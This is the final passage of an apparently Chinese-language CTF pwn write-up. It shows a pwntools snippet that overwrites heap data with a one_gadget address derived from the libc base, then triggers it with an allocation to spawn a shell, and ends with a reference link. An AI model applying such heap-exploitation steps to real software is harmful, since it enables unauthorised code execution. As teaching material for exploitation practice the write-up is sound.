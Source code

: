 ```bash
og=libc_base+ogs[1]
payload = p64(og)*8+p64(og)
edit(9,payload)
```

然后编辑一下直接传入 onegadget

[![](assets/1701612337-a6891633e3866438da66dec8b7d5fa40.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230708173143-402db314-1d72-1.png)

```bash
add(0x20)
```

成功 getshell

[![](assets/1701612337-2c083807d463a05f06731c116d36dd36.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230708173158-48ed9d84-1d72-1.png)

## 参考文章

[https://www.cnblogs.com/Rookle/p/13140339.html](https://www.cnblogs.com/Rookle/p/13140339.html)
